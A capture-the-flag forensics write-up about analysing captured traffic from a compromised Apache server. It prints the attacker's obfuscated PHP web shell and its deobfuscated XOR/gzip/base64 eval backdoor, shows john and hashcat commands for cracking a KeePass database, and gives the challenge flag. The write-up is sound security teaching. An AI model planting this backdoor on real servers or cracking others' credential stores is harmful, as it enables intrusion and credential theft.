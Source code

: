> An attacker has found a vulnerability in our web server that allows arbitrary
> PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what
> seems to be like an obfuscated shell (support.php). We monitor our network 24/7
> and generate logs from tcpdump (we provided the log file for the period of two
> minutes before we terminated the HTTP service for investigation), however, we
> need your help in analyzing and identifying commands the attacker wrote to
> understand what was compromised.

> Author: **[artikrh][author-profile]**

## The network traffic

Using wireshark, the protocol breakdown of `19-05-21_22532255.pcap` shows that 96% of the traffic is common IPv4 HTTP with web pages, js, images.

Yet there's a single IPv6 stream of data, filled with random bytes, and comming from nowhere.

Next, exporting all the HTTP objects, we see:

- 8 requests to the attacker script `/uploads/support.php` filled with base64 suspects
- 1 request to `/upload.php`, which allowed the attacker to put his code on the server

Yet running `base64 -d` on the data doesn't return anything obviously meaningful.
The php code should tell us how to decode all this data.

## The obscure code

The obfuscation of `support.php` looks fairly straightforward:

```php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
```

- `$N` will contain a function name
- `$u` is the payload:
  - made from the concatenation of the rest of the strings
  - interpretable after removing the meaningless `'u)'`
- `$x` will contain encapsulate `$u` in a function that is ultimately called

## The -mostly- clear code

Dynamic analysis will directly output the deobfuscated code, after:

- commenting out the function calls `$x=$N('',$u);$x();`
- adding instructions to output `$N` and `$x`
- starting a local server

```php
$N='create_function'
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t[$i]^$k[$j];
        }
    }
    return $o;
}
if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
```

So actually the data was first compressed, then xorred and finally base64 encoded.

The input and output have the same formating, so both can be fed to the same decrypting function.

## The instructions

Again, let's run the script and replay the captured input & output with:

```php
if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    print(@gzuncompress(@x(@base64_decode($m[1]),$k)));
}
```

## The data

So the attacker looked his id up, searched for accessibles folders and finally dumped a credential database.

`pwdb.kdbx` is the storage database for keepass.

I could neither guess the master password nor find it in the traffic dump.
Let's bruteforce it:

```bash
keepass2john pwdb.kdbx > pwdb.hash
hashcat -m 13400 -a 0 -w 2 /usr/share/wordlists/passwords/rockyou-75.txt pwdb.hash
john -w /usr/share/wordlists/passwords/rockyou-75.txt pwdb.hash
```

Actually hashcat didn't recognize john's format, so I used the latter.
Anyway it was enough, we can finally open the database with keepass and copy the password for admin user, which is the flag.

> `HTB{pr0tect_y0_shellZ}`

[author-profile]: https://app.hackthebox.com/users/41600
